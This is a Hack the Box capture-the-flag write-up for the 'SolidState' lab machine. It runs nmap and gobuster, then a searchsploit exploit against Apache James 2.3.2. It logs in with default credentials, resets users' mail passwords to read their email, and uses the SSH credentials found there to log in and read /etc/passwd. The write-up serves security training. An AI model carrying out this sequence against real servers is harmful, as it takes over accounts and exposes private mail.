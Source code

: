 # Hack the Box - SolidState

```CSS
Machine IP: 10.10.10.51 - Linux
Difficulty: Medium
Category: OSCP Preparation
Vulnerabilities:
  - 
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.51 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.51
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/7%OT=22%CT=1%CU=37112%PV=Y%DS=2%DC=I%G=Y%TM=6457A8C8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.67 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,25,80,110,119,4555 10.10.10.51 -oN services.nmap

Nmap scan report for 10.10.10.51
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.24 [10.10.14.24])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=5/7%Time=6457C059%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPle
SF:ase\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswor
SF:d:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.27 seconds
```

![image](https://user-images.githubusercontent.com/83878909/236687327-996643f3-8f36-450d-8d69-aefc5ca035ff.png)

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

---

## Port 25 - SMTP
  - Service and Version: `James smtpd 2.3.2`
```CSS
▶ searchsploit james 2.3.2
```
![image](https://user-images.githubusercontent.com/83878909/236688076-9a3abaef-62ed-443e-96ad-1e902cd6a14b.png)

---

## Port 80 - HTTP
![image](https://user-images.githubusercontent.com/83878909/236688134-0d9eac62-a0d4-4172-b2e6-cade79213572.png)

### Content Discovery
  - Brute-force directories.
```CSS
▶ gobuster dir --url http://10.10.10.51 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236745375-9142a91b-f442-4716-a2d2-a6a2db5766df.png)

---

# Exploit

## Initial Foothold
  - Apache James Server 2.3.2 - Remote Command Execution using default credentials.
  - Execute the exploit.
  - Connect to the target using netcat.
  - Login using the credentials: `root:root`.

### Download Exploit
```CSS
▶ searchsploit -m linux/remote/35513.py
```

### Run Exploit
```CSS
▶ python2 35513.py 10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236746610-285d13e2-4f47-4622-a773-d2e1a743ac2f.png)

### Connect to Target
```CSS
▶ nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/83878909/236746370-6adb3b95-83e9-4ab4-b182-1f9eae2bd06f.png)

  - List all mail accounts using the command `listusers`.
![image](https://user-images.githubusercontent.com/83878909/236747526-8b0e75ab-02b4-4a01-9f49-e2ab4130bebd.png)

  - Change the password of the `mailadmin` user account using the command `setpassword`.
![image](https://user-images.githubusercontent.com/83878909/236747790-6eae3333-52cf-44a6-afa3-237bab43889f.png)

### Access User E-mail Account
  - Use `telnet` to access the email account of user `mailadmin`.
```
▶ telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/83878909/236748853-bb598a85-1114-41b9-b645-14389fc798d8.png)
  - No email were found.

### Inspect All User E-mail Accounts
  - Change the password of all user e-mail accounts.
  - Access all email accounts using telnet.
  - Check for interesting information by inspecting emails in all accounts.

#### Change Passwords
![image](https://user-images.githubusercontent.com/83878909/236750391-5ebf01b4-0eb4-4bbe-b757-cb9875eb12d4.png)

#### Check E-mails
```
RETR 1
```
  - User `john`.
![image](https://user-images.githubusercontent.com/83878909/236751189-78724c43-ea2d-4d66-bcb7-f46062a502e3.png)

  - User `mindy`.
```
RETR 2
```
![image](https://user-images.githubusercontent.com/83878909/236751675-ca0a8ff0-2899-4649-8d68-855893b0fbf5.png)
  - SSH Credentials: `mindy:P@55W0rd1!2@`

### SSH
```CSS
▶ ssh mindy@10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236756135-c2652272-d7e1-4eed-b8f3-3e40b2d98b21.png)

# Privilege Escalation
### Restricted Bash
```CSS
mindy@solidstate:~$ cat /etc/passwd
```
![image](https://user-images.githubusercontent.com/83878909/236760143-8d145c84-ff6d-4423-a934-ea6297aefc00.png)
